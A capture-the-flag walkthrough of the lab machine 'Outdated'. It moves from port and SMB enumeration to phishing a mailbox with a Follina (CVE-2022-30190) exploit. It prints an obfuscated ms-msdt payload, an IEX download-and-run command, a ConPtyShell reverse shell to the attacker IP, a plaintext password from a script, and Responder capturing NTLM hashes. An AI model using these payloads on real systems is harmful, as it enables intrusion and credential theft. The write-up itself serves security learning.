





# Outdated


```bash
TARGET=10.10.11.175
```

```bash
$ sudo nmap -p- --min-rate 10000 $TARGET 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-22 18:51 PDT
Nmap scan report for 10.10.11.175
Host is up (0.097s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE
25/tcp    open  smtp
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
8530/tcp  open  unknown
8531/tcp  open  unknown
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49916/tcp open  unknown
49937/tcp open  unknown
51807/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 20.11 seconds
```

```bash
$ sudo nmap -p 25,53,88,135,139,389,445,464,593,636,3268,3269,8530,8531,9389 -sV -sC $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-22 18:53 PDT
Nmap scan report for 10.10.11.175
Host is up (0.092s latency).

PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-23 09:54:01Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-06-23T09:55:24+00:00; +8h00m04s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-12-13T00:17:36
|_Not valid after:  2024-12-12T00:17:36
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-06-23T09:55:23+00:00; +8h00m04s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-12-13T00:17:36
|_Not valid after:  2024-12-12T00:17:36
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-12-13T00:17:36
|_Not valid after:  2024-12-12T00:17:36
|_ssl-date: 2024-06-23T09:55:24+00:00; +8h00m04s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2023-12-13T00:17:36
|_Not valid after:  2024-12-12T00:17:36
|_ssl-date: 2024-06-23T09:55:23+00:00; +8h00m04s from scanner time.
8530/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Potentially risky methods: TRACE
8531/tcp open  unknown
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Hosts: mail.outdated.htb, DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 8h00m03s, deviation: 0s, median: 8h00m03s
| smb2-time: 
|   date: 2024-06-23T09:54:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.99 seconds
```

```bash
$ cat /etc/hosts | grep $TARGET
10.10.11.175  outdated.htb dc.outdated.htb mail.outdated.htb
```

```bash
$ netexec smb $TARGET -u 'kali' -p '' --rid-brute
SMB         10.10.11.175    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.175    445    DC               [+] outdated.htb\kali: 
SMB         10.10.11.175    445    DC               498: OUTDATED\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.175    445    DC               500: OUTDATED\Administrator (SidTypeUser)
SMB         10.10.11.175    445    DC               501: OUTDATED\Guest (SidTypeUser)
SMB         10.10.11.175    445    DC               502: OUTDATED\krbtgt (SidTypeUser)
SMB         10.10.11.175    445    DC               512: OUTDATED\Domain Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               513: OUTDATED\Domain Users (SidTypeGroup)
SMB         10.10.11.175    445    DC               514: OUTDATED\Domain Guests (SidTypeGroup)
SMB         10.10.11.175    445    DC               515: OUTDATED\Domain Computers (SidTypeGroup)
SMB         10.10.11.175    445    DC               516: OUTDATED\Domain Controllers (SidTypeGroup)
SMB         10.10.11.175    445    DC               517: OUTDATED\Cert Publishers (SidTypeAlias)
SMB         10.10.11.175    445    DC               518: OUTDATED\Schema Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               519: OUTDATED\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               520: OUTDATED\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.175    445    DC               521: OUTDATED\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.175    445    DC               522: OUTDATED\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.175    445    DC               525: OUTDATED\Protected Users (SidTypeGroup)
SMB         10.10.11.175    445    DC               526: OUTDATED\Key Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               527: OUTDATED\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               553: OUTDATED\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.175    445    DC               571: OUTDATED\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.175    445    DC               572: OUTDATED\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.175    445    DC               1000: OUTDATED\WSUS Administrators (SidTypeAlias)
SMB         10.10.11.175    445    DC               1001: OUTDATED\WSUS Reporters (SidTypeAlias)
SMB         10.10.11.175    445    DC               1002: OUTDATED\DC$ (SidTypeUser)
SMB         10.10.11.175    445    DC               1103: OUTDATED\DnsAdmins (SidTypeAlias)
SMB         10.10.11.175    445    DC               1104: OUTDATED\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.175    445    DC               1105: OUTDATED\CLIENT$ (SidTypeUser)
SMB         10.10.11.175    445    DC               1106: OUTDATED\btables (SidTypeUser)
SMB         10.10.11.175    445    DC               1107: OUTDATED\ITStaff (SidTypeGroup)
SMB         10.10.11.175    445    DC               1108: OUTDATED\sflowers (SidTypeUser)
```

```bash
$ cat tmp.list | grep 'SidTypeUser' | awk '{print $6}' | awk -F '\' '{print $2}' | sort -u | grep -v '\$$' | tr '[:upper:]' '[:lower:]' > users.list

$ cat users.list

administrator
btables
guest
krbtgt
sflowers

$ cat users.list | grep -v krbtgt > tmp.list; mv tmp.list users.list

$ cat users.list
administrator
btables
guest
sflowers
```

```bash
$ netexec smb $TARGET -u users.list -p users.list --no-bruteforce --continue-on-success
SMB         10.10.11.175    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.175    445    DC               [-] outdated.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.10.11.175    445    DC               [-] outdated.htb\btables:btables STATUS_LOGON_FAILURE 
SMB         10.10.11.175    445    DC               [-] outdated.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.175    445    DC               [-] outdated.htb\sflowers:sflowers STATUS_LOGON_FAILURE
```

```bash
$ impacket-GetNPUsers outdated.htb/ -usersfile users.list -format hashcat -outputfile hashes.asreproast 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User btables doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sflowers doesn't have UF_DONT_REQUIRE_PREAUTH set
```

```bash
$ netexec smb $TARGET -u users.list -p '' --shares                      
SMB         10.10.11.175    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.175    445    DC               [-] outdated.htb\administrator: STATUS_LOGON_FAILURE 
SMB         10.10.11.175    445    DC               [-] outdated.htb\btables: STATUS_LOGON_FAILURE 
SMB         10.10.11.175    445    DC               [-] outdated.htb\sflowers: STATUS_LOGON_FAILURE 
SMB         10.10.11.175    445    DC               [+] outdated.htb\guest: 
SMB         10.10.11.175    445    DC               [*] Enumerated shares
SMB         10.10.11.175    445    DC               Share           Permissions     Remark
SMB         10.10.11.175    445    DC               -----           -----------     ------
SMB         10.10.11.175    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.175    445    DC               C$                              Default share
SMB         10.10.11.175    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.175    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.175    445    DC               Shares          READ            
SMB         10.10.11.175    445    DC               SYSVOL                          Logon server share 
SMB         10.10.11.175    445    DC               UpdateServicesPackages                 A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system.
SMB         10.10.11.175    445    DC               WsusContent                     A network share to be used by Local Publishing to place published content on this WSUS system.
SMB         10.10.11.175    445    DC               WSUSTemp                        A network share used by Local Publishing from a Remote WSUS Console Instance.
```

```bash
$ netexec smb $TARGET -u 'guest' -p '' -M spider_plus
SMB         10.10.11.175    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.175    445    DC               [+] outdated.htb\guest: 
SPIDER_PLUS 10.10.11.175    445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.11.175    445    DC               [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.10.11.175    445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.11.175    445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.11.175    445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.11.175    445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.11.175    445    DC               [*]  OUTPUT_FOLDER: /tmp/nxc_spider_plus
SMB         10.10.11.175    445    DC               [*] Enumerated shares
SMB         10.10.11.175    445    DC               Share           Permissions     Remark
SMB         10.10.11.175    445    DC               -----           -----------     ------
SMB         10.10.11.175    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.175    445    DC               C$                              Default share
SMB         10.10.11.175    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.175    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.175    445    DC               Shares          READ            
SMB         10.10.11.175    445    DC               SYSVOL                          Logon server share 
SMB         10.10.11.175    445    DC               UpdateServicesPackages                 A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system.
SMB         10.10.11.175    445    DC               WsusContent                     A network share to be used by Local Publishing to place published content on this WSUS system.
SMB         10.10.11.175    445    DC               WSUSTemp                        A network share used by Local Publishing from a Remote WSUS Console Instance.
SPIDER_PLUS 10.10.11.175    445    DC               [+] Saved share-file metadata to "/tmp/nxc_spider_plus/10.10.11.175.json".
SPIDER_PLUS 10.10.11.175    445    DC               [*] SMB Shares:           9 (ADMIN$, C$, IPC$, NETLOGON, Shares, SYSVOL, UpdateServicesPackages, WsusContent, WSUSTemp)
SPIDER_PLUS 10.10.11.175    445    DC               [*] SMB Readable Shares:  2 (IPC$, Shares)
SPIDER_PLUS 10.10.11.175    445    DC               [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.10.11.175    445    DC               [*] Total folders found:  0
SPIDER_PLUS 10.10.11.175    445    DC               [*] Total files found:    1
SPIDER_PLUS 10.10.11.175    445    DC               [*] File size average:    104.47 KB
SPIDER_PLUS 10.10.11.175    445    DC               [*] File size min:        104.47 KB
SPIDER_PLUS 10.10.11.175    445    DC               [*] File size max:        104.47 KB
```

```bash
$ cat /tmp/nxc_spider_plus/10.10.11.175.json 
{
    "Shares": {
        "NOC_Reminder.pdf": {
            "atime_epoch": "2022-06-20 08:01:36",
            "ctime_epoch": "2022-06-19 18:14:47",
            "mtime_epoch": "2022-06-20 08:00:33",
            "size": "104.47 KB"
        }
    }
} 
```

```bash
$ smbclient //$TARGET/Shares -N -I $TARGET --user 'guest' --password ''
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jun 20 08:01:33 2022
  ..                                  D        0  Mon Jun 20 08:01:33 2022
  NOC_Reminder.pdf                   AR   106977  Mon Jun 20 08:00:32 2022

                9116415 blocks of size 4096. 1815983 blocks available
smb: \> get NOC_Reminder.pdf
getting file \NOC_Reminder.pdf of size 106977 as NOC_Reminder.pdf (81.7 KiloBytes/sec) (average 81.7 KiloBytes/sec)
smb: \> exit
```



> Due to last week’s security breach we need to rebuild some of our core servers. This has impacted a handful of our workstations, update services, monitoring tools and backups. As we work to rebuild, please assist our NOC by e-mailing a link to any internal web applications to `itsupport@outdated.htb` so we can get them added back into our monitoring platform for alerts and notifications.
>
> We have also onboarded a new employee to our SOC to assist with this matter and expedite the recovery of our update services to ensure all critical vulnerabilities are patched and servers are up to date.  The CVE list below is top priority, and we must ensure that these are patched ASAP.
>
> Thank you in advance for your assistance. If you have any questions, please reach out to the mailing list above.

| CVE | Description |
| -- | -- |
| CVE-2022-30190 | Microsoft Windows Support Diagnostic Tool (MSDT) Remote Code Execution Vulnerability |
| CVE-2022-30138 | Windows Print Spooler Elevation of Privilege Vulnerability |
| CVE-2022-30129 | Visual Studio Code Remote Code Execution Vulnerability |
| CVE-2022-29130 | Windows LDAP Remote Code Execution Vulnerability |
| CVE-2022-29110 | Microsoft Excel Remote Code Execution Vulnerability |

## CVE-2022-30190 - Follina

```bash
$ sudo nc -lvnp 80                          
listening on [any] 80 ...
```

```bash
$ swaks --to itsupport@outdated.htb --from kali@hacker.com --header "Subject: Web" --body "please click here http://10.10.14.3/test.html" --server $TARGET
=== Trying 10.10.11.175:25...
=== Connected to 10.10.11.175.
<-  220 mail.outdated.htb ESMTP
 -> EHLO kali
<-  250-mail.outdated.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<kali@hacker.com>
<-  250 OK
 -> RCPT TO:<itsupport@outdated.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Sat, 22 Jun 2024 23:47:35 -0700
 -> To: itsupport@outdated.htb
 -> From: kali@hacker.com
 -> Subject: Web
 -> Message-Id: <20240622234735.228096@kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> 
 -> please click here http://10.10.14.3/test.html
 -> 
 -> 
 -> .
<-  250 Queued (10.594 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

```bash
$ sudo nc -lvnp 80                          
listening on [any] 80 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.175] 49834
GET /test.html HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.906
Host: 10.10.14.3
Connection: Keep-Alive
```

> WindowsPowerShell/5.1.**19041.906** = KB5000842


```bash
$ git clone https://github.com/chvancooten/follina.py.git
Cloning into 'follina.py'...
remote: Enumerating objects: 131, done.
remote: Counting objects: 100% (22/22), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 131 (delta 11), reused 8 (delta 8), pack-reused 109
Receiving objects: 100% (131/131), 51.61 KiB | 1.36 MiB/s, done.
Resolving deltas: 100% (58/58), done.

$ cd follina.py

$ mkdir www

$ wget https://github.com/antonioCoco/ConPtyShell/raw/master/Invoke-ConPtyShell.ps1 -O www/Invoke-ConPtyShell.ps1
...
2024-06-23 00:20:55 (2.03 MB/s) - ‘www/Invoke-ConPtyShell.ps1’ saved [72846/72846]

$ echo "Invoke-ConPtyShell 10.10.14.3 9001" >> www/Invoke-ConPtyShell.ps1

$ tail follina.py/www/Invoke-ConPtyShell.ps1 

class MainClass
{
    static void Main(string[] args)
    {
        Console.Out.Write(ConPtyShellMainClass.ConPtyShellMain(args));
    }
}

"@;Invoke-ConPtyShell 10.10.14.3 9001
```

```bash
$ sudo python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/Invoke-ConPtyShell.ps1')"
Generated 'clickme.rtf' in current directory
Generated 'exploit.html' in 'www' directory
Serving payload on http://localhost:80/exploit.html
```

```bash
$ tail follina.py/www/exploit.html          
...
tristique arcu, et laoreet purus elit ac lectus. Ut venenatis tempus magna, non varius augue consectetur ut.

Etiam elit risus, ullamcorper cursus nisl at, ultrices aliquet turpis. Maecenas vitae odio non dolor venenatis varius eu ac sem. Phasellus id tortor tellus. Ut vehicula, justo ac porta facilisis, mi sapien efficitur ipsum, sit fusce.
</p>
<script>
    location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'Unicode.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADMALwBJAG4AdgBvAGsAZQAtAEMAbwBuAFAAdAB5AFMAaABlAGwAbAAuAHAAcwAxACcAKQA='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\"";
</script>

</body>
</html>
```

```bash
$ stty raw -echo; (stty size; cat) | nc -lvnp 9001
listening on [any] 9001 ...
```

```bash
$ swaks --to itsupport@outdated.htb --from kali@hacker.com --header "Subject: Web" --body "please click here http://10.10.14.3/exploit.html" --server $TARGET
=== Trying 10.10.11.175:25...
=== Connected to 10.10.11.175.
<-  220 mail.outdated.htb ESMTP
 -> EHLO kali
<-  250-mail.outdated.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<kali@hacker.com>
<-  250 OK
 -> RCPT TO:<itsupport@outdated.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Sun, 23 Jun 2024 09:41:04 -0700
 -> To: itsupport@outdated.htb
 -> From: kali@hacker.com
 -> Subject: Web
 -> Message-Id: <20240623094104.009194@kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> 
 -> please click here http://10.10.14.3/exploit.html
 -> 
 -> 
 -> .
<-  250 Queued (11.000 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

```bash
$ sudo python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/Invoke-ConPtyShell.ps1')"
Generated 'clickme.rtf' in current directory
Generated 'exploit.html' in 'www' directory
Serving payload on http://localhost:80/exploit.html
10.10.11.175 - - [23/Jun/2024 00:32:32] "GET /exploit.html HTTP/1.1" 200 -
10.10.11.175 - - [23/Jun/2024 00:32:34] "GET /Invoke-ConPtyShell.ps1 HTTP/1.1" 200 -
```

```bash
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\btables\AppData\Local\Temp\SDIAG_7a49cd60-49a5-405b-a268-52e1ce0bde5f> whoami
outdated\btables
```

This is the script running to check the apps on the emails.

```bash
PS C:\Users\btables> cat check_mail.ps1
Import-Module Mailozaurr
$user = 'btables@outdated.htb'
$pass = 'GHKKb7GEHcccdCT8tQV2QwL3'
$regex = [Regex]::new('(http(s)?(:\/\/))?((\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}|[\w.]\.htb)(\/[^\s,]+)?)')     
$already_seen = @()
$client = connect-imap -server 'mail.outdated.htb' -password $pass -username $user -port 143 -options auto   
while ($true) {
    $msgs = Get-IMAPFolder -client $client -verbose
    foreach ($msg in $msgs.Messages) {
        if (-not ($already_seen -contains $msg.MessageId)) {
            $already_seen = $already_seen + $msg.MessageId
            $match = $regex.Matches($msg.TextBody.TrimEnd())
            iwr $match.Value
        }
    }
    if ($already_seen.count -ge 60) {$already_seen = @()}
    #Disconnect-IMAP -Client $client
    sleep 15
    if (get-process -name msdt) {stop-process -name msdt -force}
    sleep 15
}
```

The credentials used on the script seems to be only valid for the email server. It does not work for the domain.

```bash
$ netexec smb $TARGET -u 'btables' -p 'GHKKb7GEHcccdCT8tQV2QwL3'
SMB         10.10.11.175    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.175    445    DC               [-] outdated.htb\btables:GHKKb7GEHcccdCT8tQV2QwL3 STATUS_LOGON_FAILURE
```

The hostname for the host we got a shell is `Client`, and checking its IP on `systeminfo` (172.16.20.20() it seems we are not on our real target (IP 10.10.11.175).

```bash
PS C:\Users\btables> systeminfo

Host Name:                 CLIENT
OS Name:                   Microsoft Windows 10 Enterprise N
OS Version:                10.0.19043 N/A Build 19043
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          setup
Registered Organization:
Product ID:                00330-00182-51735-AA058
Original Install Date:     6/15/2022, 8:20:38 AM
System Boot Time:          7/1/2024, 11:37:16 PM
System Manufacturer:       Microsoft Corporation
System Model:              Virtual Machine
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              American Megatrends Inc. 090007 , 5/18/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     1,652 MB
Available Physical Memory: 570 MB
Virtual Memory: Max Size:  2,292 MB
Virtual Memory: Available: 899 MB
Virtual Memory: In Use:    1,393 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    outdated.htb
Logon Server:              \\DC
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB4601554
                           [02]: KB5000736
                           [03]: KB5001330
                           [04]: KB5001405
Network Card(s):           1 NIC(s) Installed.
                           [01]: Microsoft Hyper-V Network Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.20.20
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

```bash
PS C:\Users\btables> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : client
   Primary Dns Suffix  . . . . . . . : outdated.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : outdated.htb

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Microsoft Hyper-V Network Adapter
   Physical Address. . . . . . . . . : 00-15-5D-19-AE-01
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 172.16.20.20(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.20.1
   DNS Servers . . . . . . . . . . . : 172.16.20.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

Only `administrator` is present here, but we don't have access to it.

```bash
PS C:\Users> dir
    Directory: C:\Users
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         6/15/2022  10:45 AM                administrator
d-----        12/13/2023   4:20 PM                btables
d-r---         6/15/2022   9:23 AM                Public
```

We know that we can reach to our kali from this machine, and we can try to get the the NTLM hash using `Responder`.

```bash
$ sudo responder -I tun0 -wv
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0
...
```

```bash
PS C:\Users> net use \\10.10.14.2\share
Enter the user name for '10.10.14.2':
```

```bash
[+] Listening for events...

[!] Error starting TCP server on port 80, check permissions or other servers running.
[SMB] NTLMv2-SSP Client   : 10.10.11.175
[SMB] NTLMv2-SSP Username : OUTDATED\btables
